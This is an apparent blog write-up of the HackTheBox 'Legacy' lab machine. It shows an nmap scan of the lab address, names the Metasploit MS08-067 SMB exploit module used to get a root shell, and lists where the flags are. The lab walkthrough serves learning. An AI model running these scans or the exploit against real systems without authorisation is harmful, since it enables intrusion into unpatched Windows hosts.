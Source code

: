 ```yaml
---
title: HackTheBox Legacy
date: 2020-12-06
categories: [HackTheBox]
thumbnail: /assets/img/htb/legacy/info.png
excerpt: This is an easy level box which is vulnerable to ms08_067.
tags: [ms08_067,samba,smb]
---
```


### NMAP

Ran a full port scan prior, then used those ports for a service and script scan.

> nmap -p139,445 -sV -sC -T4 -Pn 10.10.10.4 -oA 10.10.10.4

![nmap](/assets/img/htb/legacy/nmap.png)

Ran a vuln script with nmap:

![vuln](/assets/img/htb/legacy/vuln.png)


## Exploit

ms08-067 was likely vulnerable so we can try this with metasploit

```
use exploit/windows/smb/ms08_067_netapi 
```

![ms08](/assets/img/htb/legacy/ms08.png)

Root:

![root](/assets/img/htb/legacy/root.png)

User flag is in:

```
C:\Documents and Settings\john\Desktop
```

Root flag is in:

```
C:\Documents and Settings\Administrator\Desktop
```